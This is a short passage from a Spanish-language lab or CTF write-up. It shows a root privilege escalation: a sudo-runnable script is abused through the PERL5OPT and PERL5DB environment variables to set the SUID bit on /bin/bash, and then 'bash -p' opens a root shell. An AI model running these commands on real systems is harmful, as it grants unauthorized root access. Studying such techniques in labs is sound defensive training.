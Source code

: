 ```bash
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
```

Qué básicamente le dará permisos **SUID** a la Bash de ROOT, aprovechándonos que el script **Monitor.sh** podemos ejecutarlo como ROOT, lo ejecutamos para básicamente ejecutar el código malicioso de PERL.

Una vez hecho esto, ya podemos obtener una consola como ROOT, tan sólo haciendo esto:

```bash
bash -p
```

![[Pasted image 20231104155135.png]]


